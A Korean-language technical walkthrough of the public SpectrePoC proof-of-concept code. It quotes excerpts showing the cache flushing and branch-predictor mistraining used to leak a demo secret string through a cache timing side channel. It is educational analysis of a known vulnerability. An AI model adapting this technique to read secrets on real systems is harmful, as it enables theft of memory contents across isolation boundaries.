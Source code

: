 ## PoC Analysis

\* `https://github.com/crozone/SpectrePoC`의 PoC를 분석했습니다. 아래 내용은 PoC 코드와 함께 보시는 것을 추천드립니다.

```c
  #ifndef NORDTSCP
    printf("RDTSCP_SUPPORTED ");
  #else
    printf("RDTSCP_NOT_SUPPORTED ");
  #endif
  #ifndef NOMFENCE
    printf("MFENCE_SUPPORTED ");
  #else
    printf("MFENCE_NOT_SUPPORTED");
  #endif
  #ifndef NOCLFLUSH
    printf("CLFLUSH_SUPPORTED ");
  #else
    printf("CLFLUSH_NOT_SUPPORTED ");
  #endif
```

위처럼 전처리문을 많이 볼 수 있습니다. 이는 아키텍처마다 지원하는 instruction이 달라서 넣어준 것입니다. 컴파일 시에 이를 설정해줄 수 있습니다.

```c
size_t malicious_x = (size_t)(secret - (char * ) array1);
```

`malicious_x`에는 `(가져올 값의 주소 - array1의 베이스 주소)`가 담깁니다. 여기서 `secret`은 `char * secret = "The Magic Words are Squeamish Ossifrage.";`와 같이 전역 변수로 선언되어 있습니다. 본 PoC는 스펙터 공격을 이용하여 이 값을 하나하나씩 가져오는 코드입니다.

스펙터를 이용하여 값을 하나씩 추정해오는 `readMemoryByte` 함수가 핵심 함수입니다.

```c
/* Flush array2[256*(0..255)] from cache */
for (i = 0; i < 256; i++)
  _mm_clflush( & array2[i * 512]); /* intrinsic for clflush instruction */

/* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
training_x = tries % array1_size;
for (j = 29; j >= 0; j--) {
  #ifndef NOCLFLUSH
  _mm_clflush( & array1_size);
```

flush를 진행합니다. 이는 side channel attack의 한 종류인 캐시 타이밍 어택을 위한 사전 최적화 작업입니다.

```c
x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
x = (x | (x >> 16)); /* Set x=-1 if j&6=0, else x=0 */
x = training_x ^ (x & (malicious_x ^ training_x));
```

위는 x의 값을 임의로 연산시키면서 branch prediction에 혼란을 주는 코드입니다. x 값에는 결국 `malicious_x`의 값이 들어갑니다. 이 코드가 없으면 분기 예측 기능 때문에 아래의 코드에서 `temp &= array2[array1[x] * 512];` 부분이 실행되지 않아서 `array2[array1[x] * 512]` 값이 캐시에 올라가지 않습니다. 
